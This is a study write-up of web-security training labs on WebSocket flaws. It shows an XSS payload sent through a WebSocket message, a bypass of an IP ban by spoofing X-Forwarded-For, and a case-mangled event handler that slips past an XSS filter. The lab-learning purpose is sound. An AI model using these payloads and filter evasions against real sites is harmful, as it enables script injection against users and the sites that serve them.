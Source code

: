 ### Manipulating WebSocket messages to exploit vulnerabilities

### Lab: Manipulating WebSocket messages to exploit vulnerabilities
Interesting: browser HTMLEncodes our input but server does not, we can intercept (in bupr) and modify out input which later might result in xss

So we send the following to the server:
```bash
{"message":"<img src=1 onerror='alert(1)'>"}
```
And we get alert(1) executed

## Manipulating the WebSocket handshake to exploit vulnerabilities
Some WebSockets vulnerabilities can only be found and exploited by manipulating the WebSocket handshake. These vulnerabilities tend to involve design flaws, such as:
- Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities 
This online shop has a live chat feature implemented using WebSockets.
It has an aggressive but flawed XSS filter.
To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 

So we try to send:
```bash
{"message":"<img src=1 onerror='alert(1)'>"}
```
And we get back:
```bash
{"error":"Attack detected: Event handler"}
```
The attack has been blocked, and that our WebSocket connection has been terminated.

So we try to send another websocket handshake request to the server, to initiate another websocket connection:
```bash
GET /chat HTTP/2
Host: 0a3300a703cf7ada809303a800d0003d.web-security-academy.net
Sec-Websocket-Version: 13
Origin: https://0a3300a703cf7ada809303a800d0003d.web-security-academy.net
Sec-Websocket-Key: bANkYjofdpoWYUmEAgpByw==
Cookie: session=8CtoWqst0hEW3Ea5Xc64sg4XObNcaf78
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Upgrade: websocket
```
But we get back:
```
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 29

"This address is blacklisted"
```
BTW when we click "Reconnect" in Burp repeater - it also sends the same http handshake req that is shown above and we also observe that the connection attempt fails because our IP address has been banned, i.e. we get the same 401 Unauthorized response.

The solution is simple, we can use `X-Forwarded-For` to spoof our IP.
So we go to repeater, click `Reconnect` and add the following header:
```
X-Forwarded-For: 1.1.1.1
```
We're connected, let's now obfuscate our xss payload:
```bash
<img src=1 oNeRrOr=alert`1`>
```
And success!

### Cross-site WebSocket hijacking

